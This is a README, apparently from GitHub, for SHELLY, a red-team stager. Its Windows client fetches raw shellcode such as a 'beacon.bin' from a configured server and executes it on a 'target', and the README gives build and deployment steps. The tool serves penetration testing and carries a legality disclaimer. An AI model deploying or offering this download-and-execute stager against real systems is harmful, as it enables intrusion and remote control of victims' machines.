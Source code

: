 
# 🐚 SHELLY - Serve Shellcode Over the Wire

[![Version](https://shields.io/badge/version-0.3.0--beta-orange)]()
[![Build Status](https://shields.io/badge/build-release-green)]()
[![License](https://shields.io/badge/license-MIT-blue)]()
[![Status](https://shields.io/badge/status-beta-yellow)]()

**SHELLY** is a minimal client-server utility to remotely fetch and serve raw shellcode files over the network.

- `shelly-server`: Listens for incoming client requests and sends raw shellcode files on demand.
- `shelly.exe`: A Windows-compatible client (built with MinGW-w64) that requests a specified shellcode file from the server.

---

## 🛠️ Tech Stack

![C++](https://img.shields.io/badge/C%2B%2B-00599C?style=for-the-badge&logo=c%2B%2B&logoColor=white) ![MinGW-w64](https://img.shields.io/badge/MinGW--w64-000000?style=for-the-badge&logo=gnubash&logoColor=white) ![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white) ![Make](https://img.shields.io/badge/Make-064F8C?style=for-the-badge&logo=gnu&logoColor=white) ![WinINet](https://img.shields.io/badge/WinINet-0078D7?style=for-the-badge&logo=windows&logoColor=white) ![Shell](https://img.shields.io/badge/Shell-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)


## 📦 Project Structure

```
SHELLY/
├── src/
│   └── shelly.cpp         # Client source (edit before build)
│   └── shelly-server.py   # Server source
├── shelly-server          # Shellcode server (built locally)
├── bin/
│   └── shelly.exe         # Windows client binary (built with MinGW-w64)
├── Makefile
└── README.md
```

---

## ⚙️ Requirements

- **Linux** system with:
  - `make`
  - `x86_64-w64-mingw32-g++` (MinGW-w64 for cross-compilation)

---

## 🔧 Setup & Usage

### 1. Edit Client Configuration

Before building `shelly.exe`, you must **edit the following** in `src/shelly.cpp`:

- `SERVER_IP`: The IP address of the host running `shelly-server`
- `REMOTE_FILE`: The name of the shellcode file to request from the server

```cpp
// Example inside src/shelly.cpp
#define SERVER_IP "192.168.1.10"
#define REMOTE_FILE "payload.bin"
```

---

### 2. Build the Project

```bash
make         # General Instructions before using 'make build'
make build   # Cross-compiles src/shelly.cpp into bin/shelly.exe and creates a bash script for calling 'src/shelly-server.py'
```

The resulting Windows binary will be located at `bin/shelly.exe`.

---

### 3. Start the Server

Start the server on the machine that holds your shellcode files:

```bash
./shelly-server
```

- The server looks for requested files in its **current working directory**.
- Example: if `REMOTE_FILE` is `"payload.bin"`, place `payload.bin` in the same directory as `shelly-server`.

---

### 4. Run the Client (on Windows)

On the Windows target, run:

```cmd
shelly.exe
```

This will:

- Connect to `SERVER_IP`
- Request `REMOTE_FILE`
- Receive and execute the raw shellcode.

---

## ❗ Important Notes

- Intended for **controlled environments** (e.g., red team labs or internal C2-like testing).
- Always verify legality and authorization before use in real-world networks.

---

## ✅ Example Workflow

1. Place `beacon.bin` in the same folder as `shelly-server`
2. Set `REMOTE_FILE` to `"beacon.bin"` in `src/shelly.cpp`
3. Set `SERVER_IP` to your Linux host's IP
4. Build with `make && make build`
5. Start the server
6. Run `bin/shelly.exe` on the client

---

## 🛠️ Troubleshooting

- If you see linker errors like `__gxx_personality_sj0` or `_Unwind_SjLj_*`, ensure you’re compiling with `x86_64-w64-mingw32-g++`, not `gcc`.

---

## 📜 License

MIT or similar open-source license. Use responsibly.
